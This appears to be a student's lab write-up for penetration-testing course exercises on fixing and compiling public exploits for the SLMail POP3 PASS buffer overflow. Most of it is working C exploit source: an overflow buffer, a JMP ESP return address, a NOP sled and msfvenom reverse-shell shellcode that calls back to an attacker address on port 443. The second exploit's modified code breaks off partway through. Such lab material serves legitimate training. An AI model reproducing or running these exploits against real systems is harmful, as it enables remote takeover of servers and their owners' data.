

9.2.3 - Exercises
1. Fix and compile 643.c to exploit your SLMail installation
2. Fix and compile 646.c under Linux using mingw
1.
Shell obtained with revised code from 643.c:

root@:~/labs/exploits> cat 643.c
#include <arpa/inet.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <errno.h>
#include <netinet/in.h>
#include <netdb.h>
#include <string.h>
#define retadd "\x8f\x35\x4a\x5f" /* JMP ESP in SLMFC.dll 0x5f4a358f */
#define port 110
/* msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.187 LPORT=443 EXITFUNC=th read -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai */
/* revshell */
char shellcode[] =
"\xbb\x88\x9d\x35\x4f\xda\xce\xd9\x74\x24\xf4\x5d\x33\xc9\xb1"
"\x52\x31\x5d\x12\x03\x5d\x12\x83\x4d\x99\xd7\xba\xb1\x4a\x95"
"\x45\x49\x8b\xfa\xcc\xac\xba\x3a\xaa\xa5\xed\x8a\xb8\xeb\x01"
"\x60\xec\x1f\x91\x04\x39\x10\x12\xa2\x1f\x1f\xa3\x9f\x5c\x3e"
"\x27\xe2\xb0\xe0\x16\x2d\xc5\xe1\x5f\x50\x24\xb3\x08\x1e\x9b"
"\x23\x3c\x6a\x20\xc8\x0e\x7a\x20\x2d\xc6\x7d\x01\xe0\x5c\x24"
"\x81\x03\xb0\x5c\x88\x1b\xd5\x59\x42\x90\x2d\x15\x55\x70\x7c"
"\xd6\xfa\xbd\xb0\x25\x02\xfa\x77\xd6\x71\xf2\x8b\x6b\x82\xc1"
"\xf6\xb7\x07\xd1\x51\x33\xbf\x3d\x63\x90\x26\xb6\x6f\x5d\x2c"
"\x90\x73\x60\xe1\xab\x88\xe9\x04\x7b\x19\xa9\x22\x5f\x41\x69"
"\x4a\xc6\x2f\xdc\x73\x18\x90\x81\xd1\x53\x3d\xd5\x6b\x3e\x2a"
"\x1a\x46\xc0\xaa\x34\xd1\xb3\x98\x9b\x49\x5b\x91\x54\x54\x9c"
"\xd6\x4e\x20\x32\x29\x71\x51\x1b\xee\x25\x01\x33\xc7\x45\xca"
"\xc3\xe8\x93\x5d\x93\x46\x4c\x1e\x43\x27\x3c\xf6\x89\xa8\x63"
"\xe6\xb2\x62\x0c\x8d\x49\xe5\x39\x59\x51\x4e\x55\x5f\x51\xb1"
"\x1d\xd6\xb7\xdb\x71\xbf\x60\x74\xeb\x9a\xfa\xe5\xf4\x30\x87"
"\x26\x7e\xb7\x78\xe8\x77\xb2\x6a\x9d\x77\x89\xd0\x08\x87\x27"
"\x7c\xd6\x1a\xac\x7c\x91\x06\x7b\x2b\xf6\xf9\x72\xb9\xea\xa0"
"\x2c\xdf\xf6\x35\x16\x5b\x2d\x86\x99\x62\xa0\xb2\xbd\x74\x7c"
"\x3a\xfa\x20\xd0\x6d\x54\x9e\x96\xc7\x16\x48\x41\xbb\xf0\x1c"
"\x14\xf7\xc2\x5a\x19\xd2\xb4\x82\xa8\x8b\x80\xbd\x05\x5c\x05"
"\xc6\x7b\xfc\xea\x1d\x38\x1c\x09\xb7\x35\xb5\x94\x52\xf4\xd8"
"\x26\x89\x3b\xe5\xa4\x3b\xc4\x12\xb4\x4e\xc1\x5f\x72\xa3\xbb"
"\xf0\x17\xc3\x68\xf0\x3d";
struct sockaddr_in plm,lar,target;
int conn(char *ip)
{
int sockfd;
plm.sin_family = AF_INET;
plm.sin_port = htons(port);
plm.sin_addr.s_addr = inet_addr(ip);
bzero(&(plm.sin_zero),8);
sockfd = socket(AF_INET,SOCK_STREAM,0);
if((connect(sockfd,(struct sockaddr *)&plm,sizeof(struct sockaddr))) < 0)
{
perror("[-] connect error!");
exit(0);
}
printf("[*] Connected to: %s.\n",ip);
return sockfd;
}
int main(int argc, char *argv[])
{
int xs;
char out[1024];
char *buffer = malloc(3500); /* Size of buffer. */
memset(buffer, 0x00, 3500); /* Zero out what is in the buffer. */
char *off = malloc(2607); /* Begin with these bytes in the buffer. */
memset(off, 0x00, 2607); /* Zero out what is in the off char. C looks for a null terminated sequence of characters to end the string. */
memset(off, 0x41, 2606); /* Place "A"s for the first set of bytes. */
char *nop = malloc(17); /* Define the NOP slide. */
memset(nop, 0x00, 17); /* Zero out what is in the NOP slide. */
memset(nop, 0x90, 16); /* Fill all but the last byte of the NOP slide. */
strcat(buffer, off); /* Fill the first part of the buffer with the "A"s. */
strcat(buffer, retadd); /* Fill the next part of the buffer with the JMP ESP memory address. */
strcat(buffer, nop); /* FIll the next part of the buffer with the NOPs. */
strcat(buffer, shellcode); /* Fill the next part of the buffer with the shellcode. */
printf("[+] SLMAIL Remote buffer overflow exploit in POP3 PASS by Haroon Rashid Astwat.\n");
xs = conn("10.11.10.124");
read(xs, out, 1024);
printf("[*] %s", out);
write(xs,"USER username\r\n", 15);
read(xs, out, 1024);
printf("[*] %s", out);
write(xs,"PASS ",5);
write(xs,buffer,strlen(buffer));
printf("Shellcode len: %d bytes\n",strlen(shellcode));
printf("Buffer len: %d bytes\n",strlen(buffer));
write(xs,"\r\n",4);
close(xs);
}
2.
Shell obtained after fixing 646.c code:

Change this part of the code:
unsigned char shellcode[] =
"\xbb\x88\x9d\x35\x4f\xda\xce\xd9\x74\x24\xf4\x5d\x33\xc9\xb1"
"\x52\x31\x5d\x12\x03\x5d\x12\x83\x4d\x99\xd7\xba\xb1\x4a\x95"
"\x45\x49\x8b\xfa\xcc\xac\xba\x3a\xaa\xa5\xed\x8a\xb8\xeb\x01"
"\x60\xec\x1f\x91\x04\x39\x10\x12\xa2\x1f\x1f\xa3\x9f\x5c\x3e"
"\x27\xe2\xb0\xe0\x16\x2d\xc5\xe1\x5f\x50\x24\xb3\x08\x1e\x9b"
"\x23\x3c\x6a\x20\xc8\x0e\x7a\x20\x2d\xc6\x7d\x01\xe0\x5c\x24"
"\x81\x03\xb0\x5c\x88\x1b\xd5\x59\x42\x90\x2d\x15\x55\x70\x7c"
"\xd6\xfa\xbd\xb0\x25\x02\xfa\x77\xd6\x71\xf2\x8b\x6b\x82\xc1"
"\xf6\xb7\x07\xd1\x51\x33\xbf\x3d\x63\x90\x26\xb6\x6f\x5d\x2c"
"\x90\x73\x60\xe1\xab\x88\xe9\x04\x7b\x19\xa9\x22\x5f\x41\x69"
"\x4a\xc6\x2f\xdc\x73\x18\x90\x81\xd1\x53\x3d\xd5\x6b\x3e\x2a"
"\x1a\x46\xc0\xaa\x34\xd1\xb3\x98\x9b\x49\x5b\x91\x54\x54\x9c"
"\xd6\x4e\x20\x32\x29\x71\x51\x1b\xee\x25\x01\x33\xc7\x45\xca"
"\xc3\xe8\x93\x5d\x93\x46\x4c\x1e\x43\x27\x3c\xf6\x89\xa8\x63"
"\xe6\xb2\x62\x0c\x8d\x49\xe5\x39\x59\x51\x4e\x55\x5f\x51\xb1"
"\x1d\xd6\xb7\xdb\x71\xbf\x60\x74\xeb\x9a\xfa\xe5\xf4\x30\x87"
"\x26\x7e\xb7\x78\xe8\x77\xb2\x6a\x9d\x77\x89\xd0\x08\x87\x27"
"\x7c\xd6\x1a\xac\x7c\x91\x06\x7b\x2b\xf6\xf9\x72\xb9\xea\xa0"
"\x2c\xdf\xf6\x35\x16\x5b\x2d\x86\x99\x62\xa0\xb2\xbd\x74\x7c"
"\x3a\xfa\x20\xd0\x6d\x54\x9e\x96\xc7\x16\x48\x41\xbb\xf0\x1c"
"\x14\xf7\xc2\x5a\x19\xd2\xb4\x82\xa8\x8b\x80\xbd\x05\x5c\x05"
"\xc6\x7b\xfc\xea\x1d\x38\x1c\x09\xb7\x35\xb5\x94\x52\xf4\xd8"
"\x26\x89\x3b\xe5\xa4\x3b\xc4\x12\xb4\x4e\xc1\x5f\x72\xa3\xbb"
"\xf0\x17\xc3\x68\xf0\x3d";
void exploit(int sock) {
FILE *test;
int *ptr;
char userbuf[] = "USER madivan\r\n";
char evil[3001]; // Size of evil char.
char buf[3012]; // Size of buffer.
char receive[1024];
char nopsled[] = "\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90";
memset(buf, 0x00, 3012); // Zero out the buffer.
memset(evil, 0x00, 3001); // Zero out what is in the evil char.
memset(evil, 0x43, 3000); // Fill all but the last byte of the evil char with "C"s before the NOP sled.
ptr = &evil; // The ptr is the address of the evil char.
ptr = ptr + 652; // 652 ints is 2608 chars.
memcpy(ptr, &nopsled, 16); // Copy 16 bytes from the nopsled to the ptr.
ptr = ptr + 4; // Add 16 chars to the ptr.
memcpy(ptr, &shellcode, 351); // Copy 351 bytes of shellcode to the ptr.
*(long*)&evil[2606] = 0x5F4A358F; /* JMP ESP in SLMFC.dll 0x5f4a358f */